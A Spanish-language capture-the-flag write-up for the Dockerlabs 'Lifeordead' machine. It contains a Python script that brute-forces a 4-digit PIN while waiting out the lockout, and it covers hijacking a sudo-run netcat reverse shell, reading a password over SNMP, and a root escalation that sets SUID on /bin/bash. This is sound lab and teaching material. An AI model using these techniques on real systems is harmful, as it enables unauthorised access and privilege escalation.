

# 🖥️ Write-Up: [LIFE OR DEAD](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: Lifeordead
    - Plataforma: Dockerlabs
    - Dificultad: Difícil
    - Creador: d1se0
    - OS: Linux
---

## 🔍 Enumeración

La máquina Lifeordead posee la ip **172.17.0.2**.

### Descubrimiento de Puertos

Comenzamos enumerando los puertos abiertos de la máquina mediante el uso de **nmap**.


La máquina tiene abiertos los puertos **22** y **80**, por lo que empleando la misma herramienta, vamos a ver que versiones y servicios están ejecutando.


- El puerto 22 está ejecutando un servicio de OpenSSH.  
- El puerto 80 está ejecutando un servicio web con Apache.

### Puerto 80

Si accedemos con el navegador vemos la página por defecto de Apache.

Revisando su código fuente encontramos una cadena de texto en base64 y el dominio **lifeordead.dl**.


Decodificamos la cadena de texto.

```bash
echo 'UEFTU1dPUkRBRE1JTlNVUEVSU0VDUkVU' | base64 -d
```

Y obtenemos --> **PASSWORDADMINSUPERSECRET**

Ahora agregamos el dominio **lifeordead.dl** al **/etc/hosts**


Accedemos con el navegador a este dominio y vemos un panel de login.


Vamos a acceder utilizando como username **admin**  y como password la que hemos encontrado, **PASSWORDADMINSUPERSECRET**

Una vez dentro, se nos pide un código de 4 dígitos y disponemos de 10 intentos, si los gastamos, se bloquea el botón durante 30 segundos y nos vuelven a dar otros 10 intentos y así sucesivamente.


Además, en el código fuente encontramos lo que parece ser un nombre de usuario **dimer**


## 🔥 Explotación

Por lo tanto vamos a crear un script en python que llamaremos **pin.py** para que nos automatice la búsqueda del código. Tendremos que tener instalado pwntools.

```python
import requests, json, time, signal,sys
from pwn import *

# Ctrl+c
def handler_c(sig,frame):
	print("\nAborting...")
	sys.exit(1)

signal.signal(signal.SIGINT,handler_c)

# Variables
url = "http://lifeordead.dl/pageadmincodeloginvalidation.php"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Referer": "http://lifeordead.dl/pageadmincodelogin.html",
    "Origin": "http://lifeordead.dl",
    "Connection": "keep-alive",
    "Cookie": "PHPSESSID=9bt39b7cavsl3emsnof1o9543d"
}
p1= log.progress("Force Brute")
p2= log.progress("Data")

def inyection():

	time.sleep(5)
	for i in range(0,9999):

		pin="{:04d}".format(i)
		files={
			"code": (None,pin)
		}
		
		p1.status(f'Checking --> {pin}')

		res= requests.post(url, headers=headers, files=files)
		res_json=json.loads(res.text)
	
		if res_json["status"] == "blocked":
			time.sleep(30)
		elif res_json["status"] != "blocked" and res_json["status"] != "failed":
			p2.status(f'Pin --> {pin}')
			break

if __name__=="__main__":
	inyection()
```

Y encuentra el código **0081**


Lo introducimos y la web nos da un secret code: **bbb2c5e63d2ef893106fdd0d797aa97a**


Este secret code es la contraseña del usuario dimer.

## 🔑 Acceso SSH

Nos conectamos por ssh como el usuario **dimer** y la contraseña **bbb2c5e63d2ef893106fdd0d797aa97a**

```bash
ssh dimer@172.17.0.2
```

## 🧗Escalada de Privilegios

### Bilter

Revisamos los permisos sudoers de dimer con `sudo -l`


Podemos ejecutar sin proporcionar contraseña **/opt/life.sh** como el usuario **bilter**.

Revisamos el contenido de ese archivo.


Se trata de una reverse shell con netcat cuya ip y puerto están ofuscados. Si los desofuscamos tenemos la ip **172.17.0.186** y el puerto **6068**.

Por lo que vamos a cambiar nuestra ip a esa nueva.

Primero usando `ip a` en nuestra máquina para ver el nombre de la interface de red y nuestra ip. Obtenemos **docker0** y **172.17.0.1/16**.

Ahora vamos a borrarla.
```bash
ip address del 172.17.0.1/16 dev docker0
```

Y agregamos la ip **172.17.0.186**

```bash
ip address add 172.17.0.186/16 dev docker0
```

Ahora si usamos `hostname -I` veremos que tenemos la nueva ip.

Nos ponemos en escucha con **netcat** en el puerto **6068**

```bash
nc -nlvp 6068
```

Y nos volvemos a conectarnos por ssh como el usuario dimer, ya que al hacer el cambio de la ip hemos pérdido esa consola. Una vez conectados, ejecutamos como el usuario bilter el script life.sh

```bash
sudo -u bilter /opt/life.sh
```

Y recibimos la conexión.


Realizamos el tratamiento de la **TTY**


Ya somos el usuario **bilter**, ahora revisamos sus permisos sudoers.


### Purter

Si ejecutamos como sudo **/usr/local/bin/dead.sh** se nos limpia la terminal y aparece arriba un 161, que recuerda a cuando se ejecuta un proceso en segundo plano.

Vamos a revisar los procesos que se están ejecutando con `ps -faux`



Vemos que se está ejecutando el daemon de snmp, el cual suele ejecutarse por **UDP** en los puertos 161 y 162, por lo que ese 161 que apareció antes está relacionado con el puerto.

Revisamos el puerto **161** de la máquina por **UDP** utilizando **nmap**.


El puerto está abierto, así que nos vamos a conectar a él utilizando **snmpwalk**

```bash
snmpwalk -v 2c -c public 172.17.0.2
```


Vemos una cadena de texto en base64, la decodificamos.

```bash
echo 'aW1wb3NpYmxlcGFzc3dvcmR1c2VyZmluYWw=' | base64 -d
```

Y obtenemos --> **imposiblepassworduserfinal**

Es la contraseña del usuario **purter**, así que nos convertimos en él. Y revisamos sus permisos sudoers.


### Root

Podemos ejecutar como **root** sin proporcionar contraseña el **.script.sh** que está en el directorio de purter. No tenemos permisos de escritura en él, pero como el directorio pertenece a nuestro usuario, podemos borrarlo y crear uno nuevo.

Borramos el archivo.

```bash
rm .script.sh
```

Creamos un nuevo **.script.sh** que contenga:

```bash
#!/bin/bash
chmod u+s /bin/bash
```
Y le damos permisos de ejecución `chmod +x .script.sh`

De esta forma, al ejecutar el archivo como root la bash obtendrá permisos **SUID**.

Ejecutamos el archivo con **sudo** y nos lanzamos una **bash privilegiada** con `/bin/bash -p`. Ya somos **root**.

